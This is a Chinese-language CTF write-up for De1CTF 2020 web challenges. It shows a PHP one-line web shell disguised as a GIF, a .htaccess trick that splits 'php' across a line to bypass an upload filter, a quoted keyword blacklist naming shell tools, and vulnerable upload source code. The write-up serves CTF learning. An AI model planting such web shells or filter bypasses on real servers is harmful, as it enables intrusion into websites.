 ```yaml
---
title: De1ctf记录
date: 2020-05-02 10:55:23
updated: 2020-05-02 10:55:23
tags:
 - De1CTF2020
categories:
---
```


# web

## **check in**

打开链接是一个文件上传页面，抓包发现服务器是php5.4.16版本。上传一句话木马提示文件类型错误。后缀名不能是php，phtml,php2等之类的。还有MIME过滤，还对内容进行了过滤,不能包含一下字符

<!--more-->

```
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet in contents!
```

修改文件名为1.gif，MIME为image/gif

过滤了ph。不能使用<?php标签。php版本为5.4.16，支持使用php短标签

上传.htaccess，其中有过滤，使用`\`换行

```
//1.gif
GIF89a
<?=
eval($_POST[cmd]);
```

```
//.htaccess
AddType application/x-httpd-p\
hp .gif
```

然后蚁剑连接，flag在更目录下。



## mixture







## Hard_Pentest_1

打开题目给了源码

```php+HTML
<?php
//Clear the uploads directory every hour
highlight_file(__FILE__);
$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);

if($_POST["submit"]){
    if (($_FILES["file"]["size"] < 2048) && Check()){
        if ($_FILES["file"]["error"] > 0){
            die($_FILES["file"]["error"]);
        }
        else{
            $filename=md5($_SERVER['REMOTE_ADDR'])."_".$_FILES["file"]["name"];
            move_uploaded_file($_FILES["file"]["tmp_name"], $filename);
            echo "save in:" . $sandbox."/" . $filename;
        }
    }
    else{
        echo "Not Allow!";
    }
}

function Check(){
    $BlackExts = array("php");
    $ext = explode(".", $_FILES["file"]["name"]);
    $exts = trim(end($ext));
    $file_content = file_get_contents($_FILES["file"]["tmp_name"]);

    if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content)  && 
        !in_array($exts, $BlackExts) && 
        !preg_match('/\.\./',$_FILES["file"]["name"])) {
          return true;
    }
    return false;
}
?>

<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>

<form action="index.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="submit">
</form>

</body>
</html>
```

抓包查看是php7.2

